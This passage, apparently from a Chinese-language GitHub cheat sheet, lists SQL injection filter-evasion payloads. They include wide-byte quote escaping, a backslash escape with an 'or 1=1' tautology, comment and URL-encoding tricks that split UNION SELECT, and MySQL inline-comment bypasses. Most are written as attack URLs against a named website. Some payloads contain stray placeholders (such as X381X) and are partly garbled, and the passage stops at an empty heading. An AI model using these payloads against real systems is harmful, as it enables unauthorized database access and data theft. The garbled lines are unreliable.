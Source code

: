 ### 单双引号

```
GBK编码 %df'
UNICODE编码 %2527
```

单引号逃逸：

* \

```
# 用户名为username
SQL> select * from db where name='username\' and passwd=' or 1=1#
```

### 过滤 //

```
过滤：http://www.90jishuwang.com/main/news/id/1/X362X*/||/**/lpad(first_name,7,1).html
绕过：http://www.90jishuwang.com/main/news/id/1%0b||%0blpad(first_name,7,1).html
```

## 注释和编码绕过

### 注释符

```
# %23
-- 后面要加空格
/**/ 只加前半个也行
;%00 Nullbyte
` Backtick
```

```
SQL> 1+un/**/ion+se/**/lect+1,2,3 -- 空格
```

### 巧用注释和编码：

```
绕过：http://www.90jishuwang.com/news.php?id=0+div+1+union%23fooX381X%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
解析：
0 div 1 union#foo*/*/bar
select#foo
1,2,current_user
```

MySQL Inline Comments：

```
绕过：http://www.90jishuwang.com/news.php?id=1/X391X!UnIoN*/SeLecT+1,2,3 --
```

### 注释绕过
